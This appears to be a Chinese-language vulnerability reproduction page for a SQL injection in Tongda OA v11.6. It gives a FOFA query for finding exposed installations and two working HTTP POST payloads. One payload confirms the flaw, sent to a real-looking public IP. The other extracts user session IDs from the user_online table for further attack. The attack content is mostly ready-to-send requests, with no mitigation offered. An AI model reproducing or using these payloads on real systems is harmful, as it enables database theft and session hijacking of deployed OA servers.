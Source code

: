 # 通达OA v11.6 insert SQL注入漏洞

## 漏洞描述

通达OA v11.6 insert参数包含SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>通达OA v11.6 </a-checkbox></br>

## FOFA

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628303165911-5ee90d8c-903a-46d7-a373-ab9b04bdb173.png)

发送请求包判断漏洞

```php
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 101.89.158.158
User-Agent: Go-http-client/1.1
Content-Length: 77
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr(MOD(5,2),1,1))<128,1,710)))# =1&_SERVER=
```

返回302则是存在漏洞，返回500则不存在

![img](../../../.vuepress/public/img/1628303346227-1737a449-b413-4475-83b3-0190c946fa7c.png)

确认存在漏洞后，再通过SQL注入获取 SessionID进一步攻击

```php
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 122
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr((select/**/SID/**/from/**/user_online/**/limit/**/0,1),8,1))<66,1,710)))# =1&_SERVER=
```

